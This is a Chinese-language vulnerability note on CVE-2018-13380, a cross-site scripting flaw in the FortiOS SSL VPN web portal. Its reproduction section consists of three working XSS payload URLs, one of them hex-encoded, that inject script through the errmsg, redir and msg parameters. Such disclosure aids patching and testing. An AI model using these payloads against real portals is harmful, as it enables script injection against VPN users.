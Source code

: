 # （CVE-2018-13380）Fortinet FortiOS xss 漏洞

> 原文：[http://book.iwonder.run/0day/Fortinet FortiOS/CVE-2018-13380.html](http://book.iwonder.run/0day/Fortinet FortiOS/CVE-2018-13380.html)

## 一、漏洞简介

Fortinet FortiOS 是美国飞塔（Fortinet）公司的一套专用于 FortiGate 网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web 内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.0.0 版本至 6.0.4 版本、5.6.0 版本至 5.6.7 版本和 5.4 及之前版本中的 SSL VPN Web 门户存在跨站脚本漏洞。该漏洞源于 WEB 应用缺少对客户端数据的正确验证。攻击者可利用该漏洞执行客户端代码。

## 二、漏洞影响

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.8

## 三、复现过程

```
http://www.0-sec.org/remote/error?errmsg=ABABAB--%3E%3Cscript%3Ealert(1)%3C/script%3E 
```

```
http://www.0-sec.org/remote/loginredir?redir=6a6176617363726970743a616c65727428646f63756d656e742e646f6d61696e29 
```

```
http://www.0-sec.org/message?title=x&msg=%26%23<svg/onload=alert(1)>; 
```

